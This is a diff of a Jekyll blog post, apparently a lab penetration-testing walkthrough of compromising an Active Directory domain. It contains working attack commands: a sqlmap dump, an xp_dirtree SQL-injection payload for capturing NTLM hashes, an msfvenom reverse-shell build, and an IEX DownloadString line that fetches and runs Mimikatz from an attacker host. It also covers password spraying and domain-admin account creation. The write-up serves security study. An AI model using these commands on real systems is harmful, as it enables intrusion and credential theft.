

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from _posts/2018-3-26-lky-labs.md, in a window 1280 px wide and 1400 px high. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
post corrections

````diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -5,10 +5,10 @@ title: Active Directory Adventures part 1
 
 Windows Active Directory is a database of network resource objects. That proliferates in modern enterprise network architectures.
 
-This lab replicates a modern enterprise Active Directory infrastructure which supports a small/medium-sized business which has taken some reasonable measures to harden and secure the environment. This post will document the journey from external client to Domain Controller.
+This lab replicates a modern enterprise Active Directory infrastructure which supports a small/medium-sized business and which has been reasonably hardened with Applocker to limit the execution fo some binaries in some locations. This post will document the journey from external client to Domain Admin.
 
 
-We know from an underwhelming initial nmap scan (i.e. `nmap -sV -Sc IP`) that there is a firewall in place. So we scan the likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV) and scan the subnet.
+We know from an underwhelming initial nmap scan (i.e. `nmap -sV -Sc IP`) that there is a firewall in place. So we scan with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV).
 
 ```bash
 nmap -T4 -sV -Pn -p80,443 10.7.12.0/24
@@ -16,12 +16,12 @@ nmap -T4 -sV -Pn -p80,443 10.7.12.0/24
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)
 
-We have open ports on 10.7.12.11-12, and an http service running on 10.7.12.12. We bust the ports to discover web directories and find one on 10.7.12.12/mvc. It's hosting a sales site using a back-end database to manage its inventory information,as is common. We also find an http RDP access portal at 10.7.12.11/rdweb, which is Microsoft's Remote Desktop Web access portal. This is of course interesting. We can run a brute force application like hydra and medusa on the service but we have no idea of lockout or monitoring mechanisms in place so we try a few weak passwords and investigate the web application. We browse the sales site and note the url parameter and value when accessing a product for sale, `ProductSubCategoryId=18`. This is a ripe point to test whether there is an SQLi vulnerability.
+There are open ports on the hosts located at 10.7.12.11-12, and an http service running on 10.7.12.12. We brute-force the web service and find the mvc page (10.7.12.12/mvc). It's hosting a sales site using a back-end database to manage its inventory information. We also find an http RDP access portal at 10.7.12.11/rdweb, which is Microsoft's Remote Desktop Web access portal. We can run a brute force application like hydra or medusa on the service, but we have no idea of lockout or monitoring mechanisms in place so we try a few weak passwords and investigate the web application. We browse the sales site and note the url parameter and value when accessing a product for sale, `ProductSubCategoryId=18`. This is a ripe point to test whether there is an SQLi vulnerability.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-site.jpg)
 
 
-The url shows an aspx script that makes a call to the database to retrieve product information and it doesn't look like that data is sanitized. We can manually test the vulnerability if we wish, but instead We capture the request with Burp Suite and save it to a file so that we can probe the request automatically with sqlmap using the r flag.
+The url shows an aspx script that makes a call to the database to retrieve product information and it doesn't look like that data is sanitized. We capture the request with Burp Suite and save it to a file so that we can probe the request automatically with sqlmap using the r flag.
 
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-mvc-web-req.jpg)
@@ -31,7 +31,7 @@ The url shows an aspx script that makes a call to the database to retrieve produ
 sqlmap -r product.req --level=5 --risk=3
 ```
 
-Success! We go ahead and dump the entire database. (Warning this can be bad with very large databases!!). Of interest is a table giving Active Directory users, full names, and groups.
+Success! We go ahead and dump the entire database. (Warning this can be bad with very large databases!!). Of interest is a table with Active Directory users, full names, and groups.
 
 ```
 
@@ -54,7 +54,7 @@ Table: ADUsers
 ```
 
 
-If we can derive the correct username structure, given the full names of the AD users, we can spray the rdweb login intelligently. This can sometimes be accomplished with linkedIn or one can make an educated guess with from email addresses. Given the http portal on can use a tool like burp intruder. First, let's get our lists together. We'll try the first letter of firstname and lastname as a format, and we'll use standard Windows password reset format <season><year><non alphanumeric character>. Python has a useful CSV module we can leverage to easily take our sqlamp output and spit out usernames in a format we want.
+If we can derive or guess the correct username structure, given the full names of the AD users, we can spray the rdweb login intelligently. Given the http portal on can use a tool like Burp Suite's Intruder. First, let's get our lists together. We'll try the first letter of firstname and lastname as a format, and we'll use standard Windows password reset format <season><year><non alphanumeric character>. Python has a useful CSV module we can leverage to easily take our sqlamp output and spit out usernames in a format we want.
 
 ```python
 import csv
@@ -76,7 +76,7 @@ Passwords List:
 
 
 Intruder:
-We use Burp Intruder to fuzz the login page with our creds, using the "cluster bomb" attack. We remove the placeholders save for the the two USERNAME fields and the the PASSWORD field and we relate our lists to a given placeholder. We use the userlist we created for placeholder1 and copy that list for payload 2, and we use a password list above for payload 3. We make sure to 'Always Follow Redirection,' this is how we will know whether or not our password is successful.
+We use Burp Intruder to fuzz the login page with our creds, using the "cluster bomb" attack. We remove the placeholders save for the the two USERNAME fields and the the PASSWORD field and we relate our lists to a given placeholder.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-rdweb-login.jpg)
 
@@ -88,18 +88,18 @@ Intruder proves successful and we get three login creds.
 *  LAB\mholliday:Summer2017!
 *  LAB\wbaird:Autum2017!
 
-(We could've used a python script or curl or the OWA login bruteforcer in metasploit as alternatives to Burp Intruder, which can be throttled if you have the community edition)
+(We could've used a python script or curl or the OWA login bruteforcer in metasploit as alternatives to Burp Intruder, which is throttled if you have the community edition)
 
 We login with LAB\avazquez.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-valid-login.jpg)
 
-Then into into Annie's account with remmina.
+Then log into into Annie's account with remmina.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lkys-remmina.jpg)
 
 
-None of our normal powershell script are working so we surmise that there is some kind of defense in place limiting Annie's capabilities on the box. Windows Defender and probably Applocker are the most likely culprits preventing us from executing most things (Applocker includes AMSI). So we paste the contents of [applocker-bypass-checker-v1.ps1](https://braaaax.github.io/braaaax.github.io/applocker-bypas-checker.ps1) into notepad and saving as a .ps1 file allows us to sidestep Defender momentarily. Running shows us the \windows\Tasks, \windows\tracing\, \windows\system32\spool\drivers\color allow "BUILTIN\USERS" write/createFiles & execute auth so this is where we will set up shop for the time being.
+None of the normal powershell enumeration scripts are working so we surmise that there is some kind of defense in place limiting Annie's capabilities on the box. Windows Defender and probably Applocker are the most likely culprits preventing us from executing most things. So we paste the contents of [applocker-bypass-checker-v1.ps1](https://braaaax.github.io/braaaax.github.io/applocker-bypas-checker.ps1) into notepad and saving as a .ps1 file allows us to sidestep the defenses momentarily. Running the script shows the \windows\Tasks, \windows\tracing\, \windows\system32\spool\drivers\color allow "BUILTIN\USERS" write/createFiles & execute auth so this is where we will set up shop.
 
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-Applocker-Bypass.png)
@@ -109,7 +109,7 @@ None of our normal powershell script are working so we surmise that there is som
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-powershdll.png)
 
 
-We use Shellter to trick Applocker further by "rewiring" nc.exe to call to a waiting metasploit listener. Shellter adds some malicious shell code into a legitimate exe, so as long as annie can use nc.exe we should be able to add a meterpreter reverse tcp shell to nc.exe. Shellter can take some trial and error. Try and build a stable of exe's that work all or most of the time.
+We use Shellter to trick Applocker. Shellter adds some malicious shellcode into a legitimate exe, so as long as annie can use nc.exe we should be able to add a meterpreter reverse tcp shell to nc.exe.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-brax-exe.png)
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-msf-01.png)
@@ -128,16 +128,16 @@ ComputerName
 *  RDS02 - 10.7.12.12 - remote desktop
 *  SQL01 - 10.8.14.14 - sql server
 
-We enumerate the network and try to understand the machines, their use and the general topology in place. Something you should always search for are accessible shares. Using Invoke-Sharefinder we discover a credentials to an internal VPN. From an internal IP We can use responder and ntlnrelayx to dump hashes and get sessions for users without knowing the password. Something like `Invoke-Inveigh` could be used externally, but I have had limited success with it.
+We enumerate the network and try to understand the machines, their use and the general topology. Using Invoke-Sharefinder we discover a credentials to an internal VPN. From an internal IP We can use responder and ntlnrelayx to dump hashes and/or relay sessions. Something like `Invoke-Inveigh` could be used externally.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-invoke-sharefinder.png)
 
 
 After some enumeration we find: `//FS01.lab.local/GroupData/LabUserVPN.ovpn`
 
-We fire up responder, but we don't get any hashes. Responder needs a user to initiate a request typically there can be many requests on a network, to an smb share or an internal http site, but this network is quiet, but it looks like we will have to get creative.
+We fire up responder, but we don't get any hashes. Responder needs a user to initiate a request typically there can be many requests on a network, to an smb share or an internal site, but this network is quiet so it looks like we will have to get creative.
 
-We have an injection point from our initial entry point (SQLi). We can leverage our SQLi to create a web request from the owner of the database. With MSSQL we use `master..xp_dirtree` (MySQL: LOAD_FILE()) to create an out of band http request We're not interested in successful transmission of the information, just that the target user will send a valid request and with that their netNTLMv2 hash along with their request to our machine. [Further Reading] (https://www.gracefulsecurity.com/sql-injection-out-of-band-exploitation/)
+We have an injection point from our initial entry point (SQLi). We can leverage our SQLi to create a web request from the owner of the database. With MSSQL we use `master..xp_dirtree` (MySQL: LOAD_FILE()) to create an out-of-band http request. [Further Reading] (https://www.gracefulsecurity.com/sql-injection-out-of-band-exploitation/)
 
 Our uri payload will be: `/mvc/Product.aspx?ProductSubCategoryId=18;declare @q varchar(99);set @q='\\10.8.254.14\test1'; exec master.dbo.xp_dirtree @q`
 
@@ -150,7 +150,7 @@ Our uri payload will be: `/mvc/Product.aspx?ProductSubCategoryId=18;declare @q v
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-sql01-login.png)
 
 
-Success. As system on SQL01 let's create a rat with msfvenom (`msfvenom -p windows/shell/reverse_tcp lhost=10.8.254.10 lport=4444 -f exe -o callbrax.exe`) and get a meterpreter shell. Meterpreter and incognito make it trivial to use token impersonation to spawn a shell as a user with tokens available on the box. If we were a low priv user on SQL01 we could potentially use rotten potato/lonely potato to escalate to system. We see BDavis is a user on the box and a server admin, he's our target.
+Success. As system on SQL01 let's create a RAT with msfvenom (`msfvenom -p windows/shell/reverse_tcp lhost=10.8.254.10 lport=4444 -f exe -o callbrax.exe`) and get a meterpreter shell. Meterpreter and incognito make it trivial to use token impersonation to spawn a shell as a user with tokens available on the box. We see BDavis is a user on the box and a server admin, he's our target.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-steal-token-01.png)
 
@@ -159,7 +159,7 @@ Success. As system on SQL01 let's create a rat with msfvenom (`msfvenom -p windo
 
 
 GPO Enumeration:
-Group Policy is a powerful administrative feature in Active Directory management. They are applied not to groups but to OUs, Organizational Units, Active Directory containers or folders into which can be placed users, groups, computers and other organizational units. We enumerate GPOs looking for mis-configurations.
+Group Policy is a powerful administrative feature in Active Directory management. They are applied not to groups but to OUs. Organizational Units (OUs) are Active Directory containers into which can be placed users, groups, computers and other Organizational Units. We enumerate GPOs looking for mis-configurations and over-privileged users.
 
 ```powershell
 PS > Get-NetGPO
@@ -206,7 +206,7 @@ ObjectSID             :
 
 ...
 ```
-I've abridged the output to highlight the misconfiguration with the Mailserver-config. "Server Admins" have WriteProperty on the GPO means that a member of the group and change the GPO and dictate access to the devices in the OU the GPO controls. Which machines are in the OU that this GPO is applied to?
+I've abridged the output to highlight the misconfiguration with the Mailserver-config. "Server Admins" have WriteProperty on the GPO means that a member of the group and change the GPO and dictate access to the devices in the OU the GPO controls. Now we need to determine which machines are effected by that particular GPO.
 
 ```powershell
 PS > Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
@@ -232,6 +232,7 @@ MX01.lab.local
 
 Replace BUILTIN\Administrators "Server Admins" to the Member name variable of the GPO. And update the GPO. We use -force so that the update doesn't take 90 minutes. When its complete we'll have granted BDavis admin rights on MX01.
 
+
 ```powershell
 PS > type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"
 
@@ -242,15 +243,13 @@ PS > type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581
 PS > Invoke-GpUpdate -Computer MX01 -Force
 ```
 
-
-Since BDavis is now admin on MX01 we can run Mimikatz on the Box and discover the credentials of BRoss, Domain Admin, and user. By adding Invoke-Mimikatz to the bottom of Invoke-Mimikatz.ps1 I can serve the file with python's SimpleHTTPServer and execute it from memory on MX01.
-
+Since BDavis is now admin on MX01 we can run Mimikatz. We discover the credentials of BRoss, Domain Admin. Note: adding Invoke-Mimikatz to the bottom of Invoke-Mimikatz.ps1 and hosting the file with python's SimpleHTTPServer we can execute it from memory on MX01 with a web request.
 
 ```powershell
 Invoke-Command -ComputerName MX01 -ScriptBlock {IEX (New-Object Net.WebClient).DownloadString('http://10.8.254.10/Invoke-Invoke-Mimikatz.ps1')}
 ```
 
-We get NTLM hashes for BRoss, who is a Domain Admin. With this info we are able to use the Ross account to add us to net users and Domain Admins and use cme to exploit the hashes and get a shell using the same methodology:
+We get NTLM hashes for BRoss. With this info we are able to use the Ross account to add us to net users and Domain Admins and use cme to exploit the hashes and get a shell using the same methodology:
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-cme-login.png)
 
@@ -265,10 +264,3 @@ net user brax password /add /domain
 net group "Domain Admins" /add brax /domain
 net group "Remote Desktop Users" /add lab\brax /domain
 ```
-
-It's a party!
-
-![](https://braaaax.github.io/braaaax.github.io/images/lky-admin-powershell.png)
-
-
-Now on to the second forrest,  lky.local,  in part 2.
````
